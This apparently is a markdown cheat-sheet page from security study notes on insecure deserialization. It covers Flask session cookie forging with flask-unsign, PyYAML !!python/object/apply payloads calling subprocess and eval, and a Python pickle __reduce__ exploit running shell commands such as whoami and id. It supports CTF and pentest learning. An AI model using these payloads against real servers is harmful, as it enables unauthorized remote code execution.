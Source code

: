 # Insecure Deserialization

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![deserialization](../../../../_badges/owasp/deserialization.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

<div class="row row-cols-lg-2"><div>

Insecure Deserialization is a vulnerability that occurs when the deserialization process can be exploited to run malicious code.
</div><div>
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2021-33026 (Flask/Python)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![flask_unsecure_session](../../../../_badges/rootme/web_server/flask_unsecure_session.svg)](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

An insure deserialization in Flask (Python) allowed  a hacker to craft a malicious [cookie](/programming-languages/web/_general/random/cookies.md) with a command inside. When the cookie was deserialized, the command was executed by the server.

* Cookies can be read without the secret key
* Cookies can be forged with the secret key
* [kirsle flask cookie reader](https://www.kirsle.net/wizards/flask-session.cgi) (Website)
* See also: [flask-session-manager](https://github.com/noraj/flask-session-cookie-manager) <small>(0.5k ⭐)</small> or [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)  <small>(0.3k ⭐)</small>

```shell!
$ pip3 install flask-unsign[wordlist]
$ sudo ln -s /home/<xxx>/.local/bin/flask-unsign /usr/bin/flask-unsign
$ flask-unsign --decode --cookie 'cookie'        # decode
$ flask-unsign --unsign --cookie 'cookie'        # find key
$ flask-unsign --sign --cookie '' --secret 'dev' # encode
```
</div><div>

#### Yaml Deserialization - PyYAML

[![python_yaml_deserialization](../../../../_badges/hacktricks/python_yaml_deserialization.svg)](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
[![yaml_deserialization](../../../../_badges/poat/yaml_deserialization.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md)
[![yaml_deserialization](../../../../_badges/rootme/web_server/yaml_deserialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/Yaml-Deserialization)

PyYAML version 6 and below instanciated by default an insecure parser which could be exploited to run python code.

```yaml!
xxx: !!python/object/apply:time.sleep [2]
```

The `xxx:` is only necessary if a specific element <small>(e.g., xxx)</small> is rendered.

```yaml!
!!python/object/apply:builtins.range [1,10,1]
!!python/object/apply:subprocess.Popen ["ls"]
!!python/object/apply:subprocess.check_output [['ls', '-la']]
!!python/object/apply:builtins.eval [ "5" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess') or 'error'" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess').check_output(['ls', '-l']).decode('utf-8') or 'error'" ]
```

➡️ See also: [python-deserialization-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) <small>(0.08k ⭐)</small>.
</div></div>

<hr class="sep-both">

## Pickle Deserialization - Python

[![python_pickle](../../../../_badges/rootme/app_script/python_pickle.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

<div class="row row-cols-lg-2"><div>

The python [pickle module](https://docs.python.org/3/library/pickle.html) can be used for object serialization, while it's explicitly stated that it shouldn't be used with untrusted input.

You can either use `__reduce__` or use a function following [checkoway](https://checkoway.net/musings/pickle/) article, the latter being *sightly* more complex.

```py
class Exploit(object):
    def __reduce__(self):
        # write your code here
```
</div><div>

A few code samples:

```py
        import os
        return (os.system, ("echo 'Hello, World!'",))
```

```py
        import os
        raise Exception(os.popen("whoami;id;pwd;ls -1a").read())
```

To test your exploit

```py
payload = pickle.dumps(Exploit())
pickle.loads(payload)
```
</div></div>